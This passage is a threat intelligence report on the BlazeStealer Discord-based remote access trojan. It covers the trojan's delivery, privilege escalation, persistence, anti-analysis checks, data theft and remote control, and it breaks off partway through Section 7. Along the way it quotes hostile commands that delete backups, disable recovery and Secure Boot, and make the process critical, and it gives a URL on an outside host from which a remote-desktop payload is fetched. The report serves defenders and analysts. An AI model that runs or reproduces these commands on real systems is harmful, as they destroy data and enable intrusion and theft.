




# MALWARE THREAT INTELLIGENCE REPORT
## BlazeStealer Remote Access Trojan — Full Technical & Attribution Analysis

---

```
CLASSIFICATION:    TLP:AMBER — Limited Distribution
REPORT NUMBER:     MIA-2025-001
REPORT TYPE:       Malware Intelligence Report (Deep Analysis)
DATE PREPARED:     November 2025
PREPARED BY:       DigitalFootprints Corp — MIA Research Unit
DISTRIBUTION:      Internal Leadership / Senior Management
```

---

## REPORT STRUCTURE

This report is organized into the following sections:

| Section | Title |
|---------|-------|
| 1 | Executive Summary |
| 2 | Background — Who is BlazeSquad? |
| 3 | How the Malware is Delivered |
| 4 | What Happens When a Victim is Infected |
| 5 | How the Malware Hides and Survives |
| 6 | What the Malware Steals |
| 7 | Remote Control Capabilities |
| 8 | Destructive Capabilities |
| 9 | Command & Control Infrastructure |
| 10 | Confirmed Victims |
| 11 | Threat Actor Profiles |
| 12 | Indicators of Compromise (IOCs) |
| 13 | MITRE ATT&CK Mapping |
| 14 | Recommendations |
| 15 | Conclusion |

---
---

# SECTION 1 — EXECUTIVE SUMMARY

## Overview

BlazeStealer is a fully-featured Remote Access Trojan (RAT) — a type of malicious software that gives criminals complete, hidden control over a victim's computer. It was written in the Python programming language and is sold as a subscription-based criminal service by a group calling themselves **BlazeSquad666**, operated by an individual known as **Klozy**.

The malware uses **Discord** — a popular chat platform — as its hidden communication channel. When a victim's computer is infected, it silently connects to a Discord server controlled by the criminals. From there, the criminals can issue commands to the infected computer simply by typing in a chat window, as if they were sending a normal message to a friend.

This report is based on the **full recovered source code** of the malware, obtained through reverse engineering, combined with live intelligence gathered from the malware's own command-and-control server.

## Why This Matters

- The malware has **confirmed victims in Africa**, including a confirmed infected computer in **Tunisia, North Africa**.
- The malware is capable of **stealing passwords, banking credentials, cryptocurrency wallets, and Discord accounts**.
- It can **lock a victim's computer and demand payment** (ransomware).
- It can **permanently destroy a computer's ability to start up**.
- It actively **disables antivirus software, Windows Defender, Task Manager, and system recovery tools** — making it very difficult for victims to detect or remove.
- Two criminal operators have been **identified by name and Discord identity**, with information sufficient for law enforcement referral.

## Key Facts at a Glance

| Item | Detail |
|------|--------|
| Malware Name | BlazeStealer RAT / BlazeSquad RAT |
| Malware Type | Remote Access Trojan (RAT) + Infostealer + Ransomware |
| Programming Language | Python |
| C2 Platform | Discord (chat application) |
| Author / Seller | Klozy (BlazeSquad666) |
| License Model | Subscription (1 Month / Lifetime) |
| Active Victims Identified | 3 confirmed |
| African Victim Confirmed | Yes — Tunisia |
| Threat Actors Identified | 2 (retireed_, oscaritoxx) |
| Threat Level | CRITICAL |
| Report Classification | TLP:AMBER |

---
---

# SECTION 2 — BACKGROUND: WHO IS BLAZESQUAD?

## 2.1 The Group

**BlazeSquad666** is a cybercriminal group that develops and sells malware as a commercial product. Rather than using the malware only for themselves, they operate a **Malware-as-a-Service (MaaS)** model — meaning they sell access to their malware to other criminals who pay a subscription fee, similar to how a legitimate software company might sell a product.

This business model is dangerous because it means the malware can be used by many different criminals simultaneously, each targeting different victims, while the original author profits from every subscription.

> **[FIGURE 1 — BlazeStealer License & Operator Channels]**
> *The Discord server voice channels automatically created by the malware on infection, displaying the operator's username (Klozy), license type (1 Month), plan (Monthly), and expiry date (2025-12-14). These channels are visible to all members of the C2 server.*



*Source: `decrypted_stage2.py` — top of file, lines 2–5, and `on_ready()` function*

## 2.2 The Author — Klozy

From the malware's own source code, the following information about the author was hardcoded at the very top of the file:

```
USERNAME_WEB = "Klozy"
LICENSE_TYPE = "1 Month"
PLAN = "Monthly"
EXPIRE = "2025-12-14 20:25:31"
```

This tells us that the copy of the malware we analyzed was licensed to a user named **Klozy**, who paid for a one-month subscription expiring on December 14, 2025. Klozy is also identified as the malware's author and primary operator.

Additional author identifiers found in the malware:

| Identifier | Value |
|------------|-------|
| Author Username | Klozy |
| Group Name | BlazeSquad666 |
| Discord Contact | icracked |
| Bot Username | klozy#5928 |
| Bot ID | 1438975536327299202 |
| Default Password Set on Victims | hackedbyblazesquad2465 |
| GitHub Repository | BlazeSquad666/discord-injection |

The default password `hackedbyblazesquad2465` is particularly significant — it is the password the malware automatically sets on victim computers when the `.userpassfucker` command is used, effectively locking victims out of their own machines.

## 2.3 The Business Model

BlazeStealer is sold as a subscription service. Based on the source code, the available license tiers are:

- **1 Day** — Short-term access
- **1 Month** — Monthly subscription
- **Lifetime** — Permanent access

The malware checks whether the license has expired on startup. If it has, it creates a "license-expired" channel in the Discord server and stops functioning. This confirms that this is a commercially operated criminal enterprise with active customer management.

## 2.4 The Name in the Malware

The malware openly identifies itself throughout the code. The Discord bot's help menu displays the name in stylized gothic text:

> **𝕭𝖑𝖆𝖟𝖊𝕾𝖙𝖊𝖆𝖑𝖊𝖗**

This branding appears in every help message sent to operators, confirming the malware's identity and the group's pride in their product.

> **[FIGURE 2 — BlazeStealer Command Menu (.help)]**
> *The full command list returned when an operator types .help in the victim's commands channel. Over 60 commands are available, organized across 3 embed pages. The gothic BlazeStealer branding is visible in the embed title.*



*Source: `decrypted_stage2.py` — `help()` command function*

---
---

# SECTION 3 — HOW THE MALWARE IS DELIVERED

## 3.1 Delivery Method

Based on our analysis of the source code and the malware's infrastructure, BlazeStealer is typically distributed disguised as legitimate software — such as game cracks, software keygens, or free tools shared on Discord servers, forums, or file-sharing platforms.

Once a victim downloads and runs the file, the malware executes silently in the background. The victim sees nothing unusual.

## 3.2 First Actions on Execution

The very first thing the malware does when it runs is hide itself from the victim. The following actions happen within the first seconds of execution:

**Step 1 — Hide the Console Window**

The malware immediately hides any visible command window so the victim cannot see it running:

```python
ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)
```

This single line makes the malware completely invisible to the naked eye.

**Step 2 — Kill Task Manager**

Before the victim can even think to check what is running, the malware forcibly closes Task Manager:

```python
subprocess.run(["taskkill", "/IM", "taskmgr.exe", "/F"])
```

**Step 3 — Check for Security Researchers**

The malware then runs a series of checks to determine if it is being analyzed by a security researcher. If it detects any analysis tools or known researcher IP addresses, it terminates itself. This is covered in detail in Section 5.

**Step 4 — Escalate Privileges (UAC Bypass)**

If the malware is not already running with administrator privileges, it uses a known Windows vulnerability to elevate itself without triggering the standard Windows security prompt. This technique is known as a **UAC Bypass** and exploits the Windows Event Viewer application.

> **[FIGURE 3 — UAC Bypass Source Code (EventViewer Exploit)]**
> *The run_uac_bypass() function from the recovered malware source code. The function writes a malicious PowerShell script and a base64-encoded XAML payload to C:\Windows\Tasks\, then launches eventvwr.exe to execute the payload with elevated privileges — bypassing the Windows UAC prompt entirely.*



*Source: `decrypted_stage2.py` — `run_uac_bypass()` function*

The bypass works as follows:
1. The malware writes a malicious PowerShell script to `C:\Windows\Tasks\EventViewerRCE.ps1`
2. It writes a specially crafted payload file to `C:\Windows\Tasks\p4yl0ad`
3. It copies the payload to the Windows Event Viewer folder, disguised as a legitimate file called `RecentViews`
4. It launches `eventvwr.exe` (the legitimate Windows Event Viewer), which automatically executes the malicious payload with elevated privileges
5. The malware now runs as Administrator — with full control over the system

This technique exploits a known Windows design flaw (related to CVE-2017-0213) and requires no interaction from the victim.

---
---

*[END OF SESSION 1 — Sections 1, 2, and 3]*
*Next session will cover: Section 4 (What Happens After Infection), Section 5 (How It Hides), Section 6 (What It Steals)*

---
---

# SECTION 4 — WHAT HAPPENS WHEN A VICTIM IS INFECTED

## 4.1 Overview

Once the malware has successfully elevated its privileges, it immediately begins a systematic process of disabling every security and recovery feature on the victim's computer. This happens automatically, without any input from the criminal operators — it is all pre-programmed into the malware.

The goal of this phase is to ensure that:
1. The victim cannot detect the malware
2. The victim cannot remove the malware
3. The victim cannot recover their system even if they try
4. Security tools cannot scan or report the infection

## 4.2 Disabling Windows Security Features

The malware runs a function called `disableall()` immediately after gaining administrator access. This function issues a series of Windows registry commands that disable the following:

| Feature Disabled | What It Means for the Victim |
|-----------------|------------------------------|
| Task Manager | Victim cannot see or close running programs |
| Control Panel | Victim cannot change system settings |
| Windows Defender (Antivirus) | Antivirus is turned off permanently |
| Windows Update | Security patches can no longer be installed |
| Windows Store | Cannot download or update apps |
| Folder Options | Victim cannot show hidden files |
| System Restore | Cannot roll back to a previous safe state |
| Windows Backup | Automatic backups are disabled |
| Network Settings Pages | Cannot change network configuration |

> **[FIGURE 4 — System Lockdown Source Code (disableall function)]**
> *The disableall() function from the recovered malware source code. A single function call issues over 10 registry commands simultaneously, disabling Task Manager, Control Panel, Windows Defender, Windows Update, System Restore, and Windows Backup — all within seconds of infection.*



*Source: `decrypted_stage2.py` — `disableall()` function*

## 4.3 Disabling USB Ports

The malware disables all USB storage devices on the victim's computer:

```python
REG add HKLM\SYSTEM\CurrentControlSet\Services\USBSTOR /v Start /t REG_DWORD /d 4 /f
```

This prevents the victim from using a USB drive to copy files off the computer or boot from a recovery drive.

## 4.4 Destroying Recovery Options

The malware then systematically destroys every method a victim could use to recover their computer:

**Windows Recovery Environment** — Disabled:
```
reagentc.exe /disable
```

**Safe Mode** — Disabled. The victim cannot boot into Safe Mode to remove the malware:
```
bcdedit /set {default} safeboot minimal
bcdedit /deletevalue {default} safeboot
```

**Boot Error Display** — Disabled. If the computer fails to start, no error message will be shown:
```
bcdedit.exe /set {bootmgr} noerrordisplay on
```

**Startup Repair** — Disabled:
```
bcdedit /set {default} recoveryenabled No
```

**Advanced Boot Options** — Disabled:
```
bcdedit.exe /set {globalsettings} advancedoptions false
```

**All Existing Backups** — Deleted:
```
wbadmin delete backup -delete_all -backupTarget:C: -quiet
```

**Windows Backup Service** — Permanently disabled:
```
sc config wbengine start= disabled
net stop wbengine
```

**Windows Security Center** — Disabled:
```
sc config wscsvc start= disabled
net stop wscsvc
```

**Secure Boot** — Disabled via registry:
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecureBoot\State" /v UEFISecureBootEnabled /t REG_DWORD /d 0 /f
```

> *Source reference: `decrypted_stage2.py` — `disable_recovery_environment()`, `disable_safe_mode()`, `disable_boot_protection()`, `disable_startup_repair()`, `disable_advanced_options()` functions*

## 4.5 Blocking Antivirus Websites

The malware modifies the Windows `hosts` file — a system file that controls how website addresses are resolved — to redirect antivirus and security websites to a dead address (127.0.0.1), making them unreachable:

| Website Blocked | Purpose |
|----------------|---------|
| virustotal.com | Online malware scanner |
| avast.com | Antivirus software |
| malwarebytes.com | Anti-malware tool |
| bitdefender.com | Antivirus software |
| avg.com | Antivirus software |
| eset.com | Antivirus software |
| nod32.es | Antivirus software |
| google.com | General search |
| youtube.com | Video platform |

This means a victim who suspects something is wrong and tries to visit any of these websites to download help tools will find that the websites simply do not load.

> *Source reference: `decrypted_stage2.py` — `block_websites()` function*

## 4.6 Timeline of Infection — First 30 Seconds

The following is what happens on a victim's computer in the first 30 seconds after they run the malware:

| Time | Action |
|------|--------|
| 0 seconds | Malware starts, hides console window |
| 0–1 seconds | Task Manager is killed |
| 1–2 seconds | Anti-VM and anti-debug checks run |
| 2–5 seconds | UAC bypass executes, malware gains admin rights |
| 5–10 seconds | All security features disabled via registry |
| 10–12 seconds | USB ports disabled |
| 12–14 seconds | Recovery environment disabled |
| 14–16 seconds | Safe Mode disabled |
| 16–18 seconds | All backups deleted |
| 18–20 seconds | Antivirus websites blocked in hosts file |
| 20–25 seconds | Malware connects to Discord C2 server |
| 25–30 seconds | Victim's system information sent to criminals |
| 30 seconds | Victim's Discord tokens stolen and sent to criminals |

The victim has no idea any of this has happened.

---
---

# SECTION 5 — HOW THE MALWARE HIDES AND SURVIVES

## 5.1 Persistence — Surviving Reboots

One of the most important features of any malware is its ability to survive when the computer is restarted. BlazeStealer uses two separate methods to ensure it runs every time the computer starts up.

**Method 1 — Scheduled Task**

The malware creates a Windows Scheduled Task named `conhost_update`. This task is configured to run the malware automatically every time a user logs into Windows:

```python
task_name = "conhost_update"
create_task_cmd = f'schtasks /create /tn {task_name} /tr "{target_path}" /sc onlogon /rl LIMITED /f'
```

The name `conhost_update` is deliberately chosen to look like a legitimate Windows process (`conhost.exe` is a real Windows system file), making it blend in with normal system tasks.

**Method 2 — Registry Run Key**

The malware also adds itself to the Windows registry startup location:

```
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\conhost.exe
```

Again, the name `conhost.exe` is used to disguise the malware as a legitimate Windows component.

**Method 3 — Hidden File Copy**

The malware copies itself to a hidden folder inside the Windows System32 directory:

```
C:\Windows\System32\Intel\
```

It then uses the `attrib +h` command to hide the file, making it invisible in normal file browsing. The `Intel` folder name is chosen to look like legitimate Intel hardware driver files.

> *Source reference: `decrypted_stage2.py` — `startup()`, `hide_file()`, and `add_to_startup_with_task_scheduler()` functions*

## 5.2 Anti-Analysis — Detecting Security Researchers

The malware runs four separate checks in parallel background threads to detect if it is being analyzed. If any check triggers, the malware terminates itself immediately.

**Check 1 — Window Title Blacklist**

The malware continuously scans all open windows on the computer every 0.5 seconds, looking for windows with titles associated with security analysis tools:

| Blacklisted Window Title | Associated Tool |
|--------------------------|----------------|
| hacker | Generic hacking tools |
| wpe pro | Network packet editor |
| brute | Brute force tools |
| de4dotmodded | .NET deobfuscator |
| codecracker | Code analysis tool |
| sniffer | Network sniffer |
| httpanalyzer | HTTP traffic analyzer |
| kgdb | Linux kernel debugger |

If any of these window titles are found, the malware terminates the associated process and exits.

> *Source reference: `decrypted_stage2.py` — `check_windows()` function and `blacklisted_titles` set*

**Check 2 — IP Address Blacklist**

The malware checks the victim's public IP address against a list of 19 known IP addresses belonging to security researchers and analysis environments:

```python
blacklisted_ips = {
    '34.85.243.241', '35.199.6.13', '195.239.51.3', '193.225.193.201',
    '192.211.110.74', '34.138.96.23', '88.132.227.238', '212.119.227.167',
    '80.211.0.97', '88.132.225.100', '34.83.46.130', '109.74.154.91',
    '95.25.204.90', '88.132.226.203', '88.132.231.71', '109.145.173.169',
    '92.211.192.144', '84.147.54.113', '188.105.91.173'
}
```

If the victim's IP matches any of these, the malware exits silently.

**Check 3 — Virtual Machine Detection via Registry**

The malware checks the Windows registry for signs of VMware virtualization — a common tool used by security researchers to safely analyze malware:

```python
key = winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, "SYSTEM\\CurrentControlSet\\Enum\\IDE")
for i in range(winreg.QueryInfoKey(key)[0]):
    if winreg.EnumKey(key, i).startswith("VMWARE"):
        exit_program("VM Detected via Registry")
```

**Check 4 — Virtual Machine Detection via DLL Files**

The malware also checks for the presence of DLL files that are only present in virtual machine environments:

| DLL File | Indicates |
|----------|-----------|
| vmGuestLib.dll | VMware Guest Tools |
| vboxmrxnp.dll | VirtualBox network provider |

Additionally, it checks for VirtualBox-specific driver files:

| Driver File | Indicates |
|-------------|-----------|
| VBoxMouse.sys | VirtualBox mouse driver |
| VBoxGuest.sys | VirtualBox guest driver |
| VBoxSF.sys | VirtualBox shared folders |
| VBoxVideo.sys | VirtualBox video driver |

And VirtualBox-specific processes:

| Process | Indicates |
|---------|-----------|
| vboxservice.exe | VirtualBox service |
| vboxtray.exe | VirtualBox system tray |
| xenservice.exe | Xen virtualization |

> *Source reference: `decrypted_stage2.py` — `antivm()`, `cvm()`, `check_dll()`, and `check_registry()` functions*

## 5.3 Anti-Kill — Making Itself Impossible to Close

Once running, the malware can be instructed by operators to make itself a "critical process" in Windows. This means that if anyone tries to close or kill the malware process, Windows will respond by triggering a Blue Screen of Death (BSOD) — crashing the entire computer:

```python
ctypes.windll.ntdll.RtlAdjustPrivilege(20, 1, 0, ctypes.byref(ctypes.c_bool()))
ctypes.windll.ntdll.RtlSetProcessIsCritical(1, 0, 0)
```

This is triggered by the `.antikillproc` command.

## 5.4 Anti-Shutdown — Preventing the Computer from Turning Off

The malware can also block the victim from shutting down or restarting their computer:

```python
ShutdownBlockReasonCreate(hwnd, "Blocked by Discord - Critical execution in progress")
```

This is triggered by the `.antishutdown` command and prevents normal shutdown, restart, or log-off operations.

## 5.5 Discord Injection — Permanent Token Theft

One of the most sophisticated persistence mechanisms is the Discord injection. The malware downloads a malicious JavaScript file from the criminals' GitHub repository and injects it directly into the Discord application files on the victim's computer:

```python
url = "https://raw.githubusercontent.com/BlazeSquad666/discord-injection/main/injection.js"
```

This injection modifies Discord's core application file (`index.js`) so that every time the victim opens Discord — even after the main malware has been removed — the injected code silently sends the victim's Discord login token to the criminals via a webhook.

This means the criminals can maintain access to the victim's Discord account even if the victim successfully removes the main malware.

> *Source reference: `decrypted_stage2.py` — `discinjection()` command function, GitHub URL: `https://raw.githubusercontent.com/BlazeSquad666/discord-injection/main/injection.js`*

---
---

# SECTION 6 — WHAT THE MALWARE STEALS

## 6.1 Overview

BlazeStealer is designed to steal virtually every piece of valuable information stored on a victim's computer. The theft happens automatically on infection and can also be triggered manually by operators at any time.

## 6.2 Discord Account Tokens

The first thing the malware steals — automatically, within seconds of infection — is the victim's Discord account tokens. A Discord token is essentially a master key to a Discord account. Anyone who has this token can log into the account, read all messages, join all servers, and impersonate the account owner — without needing the password.

The malware searches for tokens in 22 different locations, covering every major web browser and Discord client variant:

| Application Searched |
|---------------------|
| Discord (main client) |
| Discord Canary |
| Discord PTB |
| Lightcord |
| Google Chrome |
| Microsoft Edge |
| Brave Browser |
| Opera |
| Opera GX |
| Vivaldi |
| Yandex Browser |
| Iridium |
| Epic Privacy Browser |
| Amigo |
| Torch |
| Kometa |
| Orbitum |
| CentBrowser |
| 7Star |
| Sputnik |
| Uran |
| Chrome SxS |

For each token found, the malware sends the following information to the criminals:

| Data Sent | Description |
|-----------|-------------|
| Discord Username | The victim's Discord username |
| Discord User ID | Unique account identifier |
| Email Address | Email linked to the Discord account |
| Phone Number | Phone number linked to the account |
| 2FA Status | Whether two-factor authentication is enabled |
| Nitro Status | Whether the account has a paid Nitro subscription |
| Nitro Expiry | How many days of Nitro remain |
| The Token Itself | The master key to the account |
| Victim's IP Address | The victim's public internet address |
| Victim's PC Username | The Windows username |
| Victim's PC Name | The computer's network name |

> *Source reference: `decrypted_stage2.py` — `fetch_and_send_tokens()` function and the Discord embed construction block*

## 6.3 Browser Passwords, Cookies, and Credit Cards

The malware steals all saved data from 16 different web browsers using the `.browsersinfo` command. The data is collected, packaged into a ZIP file, and sent to the criminals.

**What is stolen from each browser:**

| Data Type | What It Contains |
|-----------|-----------------|
| Login Data | Every saved username and password for every website |
| Cookies | Session cookies that can be used to log into websites without a password |
| Web History | Every website the victim has visited |
| Downloads | List of every file the victim has downloaded |
| Credit Cards | Saved credit card numbers, expiry dates, and cardholder names |

The malware decrypts all of this data using the browser's own encryption key, which it extracts from the browser's local storage. This means the data is delivered to the criminals in plain, readable text — not encrypted.

> *Source reference: `decrypted_stage2.py` — `Chromium` class, `get_login_data()`, `get_cookies()`, `get_web_history()`, `get_downloads()`, `get_credit_cards()` methods*

**Browsers targeted:**

| Browser |
|---------|
| Google Chrome |
| Microsoft Edge |
| Brave |
| Opera |
| Opera GX |
| Vivaldi |
| Yandex Browser |
| Iridium |
| Epic Privacy Browser |
| Amigo |
| Torch |
| Kometa |
| Orbitum |
| CentBrowser |
| 7Star |
| Sputnik |

## 6.4 Cryptocurrency Wallets

The malware steals cryptocurrency wallet files from 10 standalone wallet applications and also searches for MetaMask browser extension wallets across all supported browsers:

**Standalone Wallets Targeted:**

| Wallet | Cryptocurrency |
|--------|---------------|
| Zcash | ZEC |
| Armory | BTC |
| Bytecoin | BCN |
| Jaxx Liberty | Multiple |
| Exodus | Multiple |
| Ethereum Keystore | ETH |
| Electrum | BTC |
| AtomicWallet | Multiple |
| Guarda | Multiple |
| Coinomi | Multiple |

**Browser Extension Wallets Targeted:**

The malware specifically searches for MetaMask extension data (extension IDs `ejbalbakoplchlghecdalmeeeajnimhm` and `nkbihfbeogaeaoehlefnkodbefgpgknn`) across all supported browsers.

The wallet files are copied and sent to the criminals. With these files, the criminals can potentially access and drain the victim's cryptocurrency holdings.

> *Source reference: `decrypted_stage2.py` — `steal_wallets()` function, wallet paths tuple, and MetaMask extension ID search loop*

## 6.5 System Information

On first infection, the malware automatically collects and sends a comprehensive profile of the victim's computer:

| Data Collected | Example |
|---------------|---------|
| Public IP Address | 31.215.240.196 |
| Windows Username | uare |
| Computer Name | DESKTOP-0V99OKA |
| Operating System | Windows 10, Build 19045, 64-bit |
| CPU Name & Cores | Intel Core i5-9400, 4 cores |
| Total RAM | 11.83 GB |
| Graphics Card | Microsoft Basic Display Adapter |
| Screen Resolution | 1920x1080 |
| CPU Usage | Real-time percentage |
| BIOS Name & Version | F.48, HPQOEM |
| Motherboard Model | — |
| MAC Address | f4:39:09:35:8e:09 |

This information is sent as a formatted embed message to the criminals' Discord server and is used to profile the victim and determine how valuable a target they are.

## 6.6 Keylogger

The malware includes a keylogger — a tool that records every key the victim presses on their keyboard. This is activated by the `.keylogger` command and runs silently in the background, recording everything the victim types into a log file. When the operator issues the `.stopkeylogger` command, the log file is automatically sent to them.

This means the criminals can capture passwords typed manually (even if they are not saved in the browser), banking PINs, private messages, and any other sensitive information the victim types.

## 6.7 Clipboard Contents

The malware can capture whatever is currently copied to the victim's clipboard using the `.clipboardlog` command. This is particularly dangerous for cryptocurrency users, who often copy-paste wallet addresses when making transactions — the criminals can capture these addresses.

## 6.8 Geolocation

The malware can retrieve the victim's precise geographic location (latitude and longitude) and generate a Google Maps link pointing to their location:

```python
link = f"http://www.google.com/maps/place/{data['latitude']},{data['longitude']}"
```

This is triggered by the `.geolocate` command.

## 6.9 Screenshots

The malware can take a screenshot of whatever is currently on the victim's screen using the `.cap` command. It can also be set to take continuous screenshots every 3 seconds using `.caploop`, sending each one to a dedicated channel in the criminals' Discord server.

> *Source reference: `decrypted_stage2.py` — `cap()` and `caploop()` command functions using `PIL.ImageGrab`*

## 6.10 Webcam and Microphone

The malware can:
- Take a photo using the victim's webcam (`.fotocam`)
- Record video from the victim's webcam (`.videocam`)
- Stream the victim's microphone audio in real-time to a Discord voice channel (`.grabmic`)
- Record the victim's screen as a video file (`.grabapantalla`)

The microphone streaming is particularly invasive — it allows the criminals to listen to everything happening in the victim's physical environment in real time, as if they had planted a listening device in the victim's home or office.

---
---

*[END OF SESSION 2 — Sections 4, 5, and 6]*
*Continuing immediately with Session 3: Sections 7, 8, 9, and 10*

---
---

# SECTION 7 — REMOTE CONTROL CAPABILITIES

## 7.1 Overview

Beyond stealing data, BlazeStealer gives the criminal operators full, real-time control over the victim's computer. Every action described in this section can be performed silently, without the victim's knowledge, simply by typing a command into a Discord chat channel.

## 7.2 Full Remote Desktop Access

The most powerful remote control feature is the `.remotepc` command. When executed, the malware:

1. Downloads a remote desktop server package (`remotepc.zip`) from the criminals' payload server at `http://173.208.142.174:8080/files/remotepc.zip`
2. Extracts the package to `%LOCALAPPDATA%\RemotePC\`
3. Launches `server.exe` — a remote desktop server
4. Launches `ngrok.exe` — a tunneling tool that creates a public internet address pointing to the victim's computer, bypassing firewalls
5. Sends the connection URL, username, and password back to the operators in Discord

The default credentials for remote access are:
- **Username:** admin
- **Password:** hackedbyblazesquad2465

Once connected, the operators have full visual control of the victim's screen and can move the mouse, type on the keyboard, open files, and perform any action as if they were physically sitting at the victim's computer — while the victim watches their mouse move on its own.

> *Source reference: `decrypted_stage2.py` — `remotepc()` command function, download URL: `http://173.208.142.174:8080/files/remotepc.zip`, extraction to `%LOCALAPPDATA%\RemotePC\`*

## 7.3 Command Line Execution

The `.cmd` command allows operators to run any Windows command or PowerShell script directly on the victim's computer and receive the output in Discord:

```python
result = subprocess.check_output(command, shell=True)
```

This gives operators the ability to:
- Browse the victim's file system
- Create, modify, or delete files
- Install additional software
- Change system settings
- Execute any program

## 7.4 File Access

The `.getfile` command allows operators to request any specific file from the victim's computer. The file is uploaded directly to the Discord channel. This can be used to steal specific documents, photos, or any other file of interest.

